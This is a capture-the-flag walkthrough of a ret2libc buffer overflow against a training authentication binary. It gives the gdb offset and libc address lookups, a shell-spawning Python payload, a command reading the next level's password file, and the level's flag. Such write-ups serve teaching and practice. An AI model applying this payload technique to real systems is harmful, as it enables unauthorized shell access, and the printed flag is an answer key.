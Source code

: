
# Ret2libc again

## Program summary

This level involves exploiting a program emulating an authentication system.
The program verifies the username and password using specific functions such as **`verify_user_name()`** and **`verify_user_pass()`**.  The one that processes the username leaves the verification data visible, the username is **dat_wil**, this data is stored at address **`0x80486a8`**.

## Vulnerability

The program's vulnerability lies in the second **`fgets()`** function.
```
0x8048574 <main+164>    call   0x8048370 <fgets@plt>
```
By injecting an offset pattern we can calculate the exact distance between the buffer and the location of the saved **`$RIP / $EIP`**, and we can see that we can overwrite this memory location. 

## Attack design

To successfully exploit the vulnerability, we’ll use a **ret2libc**, you need to perform the following steps in order to achieve this :

1. Get Offset
> Offset pattern: LAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

`Program received signal SIGSEGV, Segmentation fault. 0x37634136 in ?? ()`

Our offset is therefore 80 Bytes according to the **0x37634136** value (I did this manipulation with an Buffer overflow pattern generator).

2. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

3. Retrieve **`exit()`** address :
```c
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

4. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1865
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
...
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...

(gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

This payload will allow us to exploit the flaw present here :

```c
python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/boom
cat /home/users/level02/.pass
```

> Flag : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
